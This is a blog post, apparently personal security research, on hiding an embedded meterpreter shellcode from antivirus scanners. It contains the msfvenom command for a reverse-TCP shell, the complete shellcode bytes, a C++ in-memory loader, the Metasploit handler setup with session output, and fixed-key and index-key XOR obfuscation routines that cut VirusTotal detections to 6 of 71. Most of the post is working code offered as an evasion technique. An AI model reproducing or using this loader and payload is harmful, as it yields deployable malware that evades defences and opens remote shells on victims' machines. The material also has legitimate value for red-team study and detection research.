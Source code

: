 ```yaml
---
layout: post
title:  "Embedded Shellcode Obfuscation"
date:   2023-09-15 00:00:00 +0000
categories: malware
---
```


In this blog entry, I'll be playing around with obfuscation techniques to bypass antivirus detection for an embedded meterpreter shellcode. The goal is to run shellcode in the local process, and to minimize VirusTotal flags. Techniques will be incrementally applied to the binary to observe progressive success.

### 1. Generating Shellcode
To kickstart the research, I'll generate a basic meterpreter payload. This same payload will be used throughout the research.

{% highlight powershell %}
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.0.128 LPORT=443 -f c
{% endhighlight %}

<br>
Here's the generated payload. I will omit this variable declaration from below code snippets. All C++ code will be compiled with the following line `g++ .\main.cpp -o main.exe --std=c++20`.  

{% highlight cpp %}
unsigned char buf[] = 
"\xfc\xe8\x8f\x00\x00\x00\x60\x89\xe5\x31\xd2\x64\x8b\x52\x30"
"\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x31\xff\x0f\xb7\x4a\x26"
"\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\x49"
"\x75\xef\x52\x57\x8b\x52\x10\x8b\x42\x3c\x01\xd0\x8b\x40\x78"
"\x85\xc0\x74\x4c\x01\xd0\x8b\x48\x18\x8b\x58\x20\x50\x01\xd3"
"\x85\xc9\x74\x3c\x31\xff\x49\x8b\x34\x8b\x01\xd6\x31\xc0\xac"
"\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf4\x03\x7d\xf8\x3b\x7d\x24"
"\x75\xe0\x58\x8b\x58\x24\x01\xd3\x66\x8b\x0c\x4b\x8b\x58\x1c"
"\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24\x24\x5b\x5b\x61\x59"
"\x5a\x51\xff\xe0\x58\x5f\x5a\x8b\x12\xe9\x80\xff\xff\xff\x5d"
"\x68\x33\x32\x00\x00\x68\x77\x73\x32\x5f\x54\x68\x4c\x77\x26"
"\x07\x89\xe8\xff\xd0\xb8\x90\x01\x00\x00\x29\xc4\x54\x50\x68"
"\x29\x80\x6b\x00\xff\xd5\x6a\x0a\x68\x0a\x00\x00\x80\x68\x02"
"\x00\x01\xbb\x89\xe6\x50\x50\x50\x50\x40\x50\x40\x50\x68\xea"
"\x0f\xdf\xe0\xff\xd5\x97\x6a\x10\x56\x57\x68\x99\xa5\x74\x61"
"\xff\xd5\x85\xc0\x74\x0a\xff\x4e\x08\x75\xec\xe8\x67\x00\x00"
"\x00\x6a\x00\x6a\x04\x56\x57\x68\x02\xd9\xc8\x5f\xff\xd5\x83"
"\xf8\x00\x7e\x36\x8b\x36\x6a\x40\x68\x00\x10\x00\x00\x56\x6a"
"\x00\x68\x58\xa4\x53\xe5\xff\xd5\x93\x53\x6a\x00\x56\x53\x57"
"\x68\x02\xd9\xc8\x5f\xff\xd5\x83\xf8\x00\x7d\x28\x58\x68\x00"
"\x40\x00\x00\x6a\x00\x50\x68\x0b\x2f\x0f\x30\xff\xd5\x57\x68"
"\x75\x6e\x4d\x61\xff\xd5\x5e\x5e\xff\x0c\x24\x0f\x85\x70\xff"
"\xff\xff\xe9\x9b\xff\xff\xff\x01\xc3\x29\xc6\x75\xc1\xc3\xbb"
"\xf0\xb5\xa2\x56\x6a\x00\x53\xff\xd5";
{% endhighlight %}

<br>
Successful shellcode execution criteria is a meterpreter session. This criteria must be met for all obfuscation techniques applied below.

{% highlight cpp %}
msf6 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost 0.0.0.0
lhost => 0.0.0.0
msf6 exploit(multi/handler) > set lport 443
lport => 443
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 0.0.0.0:443 
[*] Sending stage (175174 bytes) to 10.0.0.129
[*] Meterpreter session 1 opened (10.0.0.128:443 -> 10.0.0.129:49800 ) at 2023-09-15 04:44:34 -0400
{% endhighlight %}

<br>
### 2. Baseline
Before attempting any obfuscation and anti-virus bypasses. I will throw this tested baseline sample into Virustotal.

{% highlight cpp %}
#include <windows.h>

int main() {
    LPVOID memory = VirtualAlloc(NULL, sizeof(payload), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    memcpy(memory, payload, sizeof(payload));

    HANDLE hThread = CreateThread(NULL, 0, (LPTHREAD_START_ROUTINE) memory, 0, 0, NULL);
    WaitForSingleObject(hThread, INFINITE);
    return 0;
}
{% endhighlight %}

<br>
Here are the results. Extremely strange that only 26/70 vendors flagged this sample, considering it has no protection mechanisms at all. 
SHA256: ![1d2c5660e52b21d7a690d1d76af0f734e3b1bb59d6beff3f94c51c1296b6d92b](https://www.virustotal.com/gui/file/1d2c5660e52b21d7a690d1d76af0f734e3b1bb59d6beff3f94c51c1296b6d92b)

![vt_baseline](/assets/post_assets/embedded-shellcode-obfuscation/vt_baseline.png)


<br>
### 3. XOR Shellcode Obfuscation 
The XOR operation is widely used for obfuscation; used especially in malware for hiding data/payloads, packing, mangling strings, and really anything under the sun. In this chapter, I will experiment with 2 different XOR obfuscation techniques:

+ Fixed-Key XOR - each byte of the payload will be XORed with the fixed value 0x27.
+ Index-Key XOR - each byte of the payload will be XORed with its index.

The objective here is to understand if it matters - how obfuscated the payload is.

<br>
#### 3.1. Fixed-Key XOR
I wrote a simple python script to assist with the obfuscation.

{% highlight python %}
def obfuscate_fixed_xor(payload_intarray: list):
    obfuscated_intarray = []
    for i in payload_intarray:
        new_int = i ^ 0x27
        obfuscated_intarray.append(new_int)

    return obfuscated_intarray
{% endhighlight %}

<br>
The C++ deobfuscation routine.

{% highlight cpp %}
#include <windows.h>

void deobfuscate(unsigned char* deobfuscated_payload) {
    int new_int {0};
    for (int index {0}; index < sizeof(payload); index++) {
        new_int = payload[index] ^ 0x27;
        deobfuscated_payload[index] = new_int;
    }
}

int main() {
    LPVOID memory = VirtualAlloc(NULL, sizeof(payload), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    
    unsigned char deobfuscated_payload[sizeof(payload)];
    deobfuscate(deobfuscated_payload);
    memcpy(memory, deobfuscated_payload, sizeof(deobfuscated_payload));

    HANDLE hThread = CreateThread(NULL, 0, (LPTHREAD_START_ROUTINE) memory, 0, 0, NULL);
    WaitForSingleObject(hThread, INFINITE);
    return 0;
}
{% endhighlight %}

<br>
Huge improvement in bypassing static antivirus scans.
SHA256: ![0e247e2d325514022ca189b4f1d67ae6d8cec890f561a97e8857c6967df5902b](https://www.virustotal.com/gui/file/0e247e2d325514022ca189b4f1d67ae6d8cec890f561a97e8857c6967df5902b)

![vt_index_xor](/assets/post_assets/embedded-shellcode-obfuscation/)


<br>
#### 3.2. Index-Key XOR
As above, a python script to automate the obfuscation. This time, each byte in the payload will be XORed with its respective index (mod 0xff, to keep within 8 bits).

{% highlight python %}
def obfuscate_index_xor(payload_intarray: list):
    obfuscated_intarray = []
    for index in range(len(payload_intarray)):
        xor = index % 0xff
        new_int = payload_intarray[index] ^ xor
        obfuscated_intarray.append(new_int)
    
    return obfuscated_intarray
{% endhighlight %}

<br>
The exact same deobfuscation routine, but written in C++.

{% highlight cpp %}
#include <windows.h>

void deobfuscate(unsigned char* deobfuscated_payload) {
    int xor {0};
    int new_int {0};
    for (int index {0}; index < sizeof(payload); index++) {
        xor = index % 0xff;
        new_int = payload[index] ^ xor;
        deobfuscated_payload[index] = new_int;
    }
}

int main() {
    LPVOID memory = VirtualAlloc(NULL, sizeof(payload), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    
    unsigned char deobfuscated_payload[sizeof(payload)];
    deobfuscate(deobfuscated_payload);
    memcpy(memory, deobfuscated_payload, sizeof(deobfuscated_payload));

    HANDLE hThread = CreateThread(NULL, 0, (LPTHREAD_START_ROUTINE) memory, 0, 0, NULL);
    WaitForSingleObject(hThread, INFINITE);
    return 0;
}
{% endhighlight %}

<br>
The results - 6/71 vendors detected. Same as the Fixed-XOR technique
SHA256: ![7d7710c28190bc5d49187fd99bf042574705b57454ad770e7239b602596ddfbf](https://www.virustotal.com/gui/file/7d7710c28190bc5d49187fd99bf042574705b57454ad770e7239b602596ddfbf)

![vt_index_xor](/assets/post_assets/embedded-shellcode-obfuscation//vt_index_xor.png)


<br>
#### 3.3. XOR Summary
Both the Fixed-XOR and Index-XOR scored the same 6/71 score on VirusTotal. This meant that even Fixed-XOR hid the shellcode successfully, and it doesn't matter the depth of the shellcode obfuscation. This suggests that the remaining 6 vendors detected other traits of the malicious file - likely the plaintext WinAPIs - and other patterns yet unknown (to me).
